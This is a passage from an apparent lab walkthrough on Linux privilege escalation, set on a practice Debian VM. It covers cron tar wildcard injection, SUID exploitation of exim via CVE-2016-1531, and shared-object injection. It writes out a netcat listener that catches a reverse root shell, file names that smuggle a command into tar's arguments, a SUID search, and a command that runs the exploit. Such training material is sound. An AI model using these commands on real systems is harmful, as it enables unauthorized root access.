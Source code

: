 * When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

* Set up a __netcat__ listener on your Kali box on port __4444__ and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444```

* Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

---

* Answer the questions below
* Read and follow along with the above.

```No answere needed```


## Task 11: SUID / SGID Executables - Known Exploits

* Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

> Note that __/usr/sbin/exim-4.84-3__ appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

* A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at __/home/user/tools/suid/exim/cve-2016-1531.sh__.

* Run the exploit script to gain a root shell:

```/home/user/tools/suid/exim/cve-2016-1531.sh```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 12: SUID / SGID Executables - Shared Object Injection

* The __/usr/local/bin/suid-so__ SUID executable is vulnerable to shared object injection.

* First, execute the file and note that currently it displays a progress bar before exiting:

```/usr/local/bin/suid-so```

* Run __strace__ on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

```
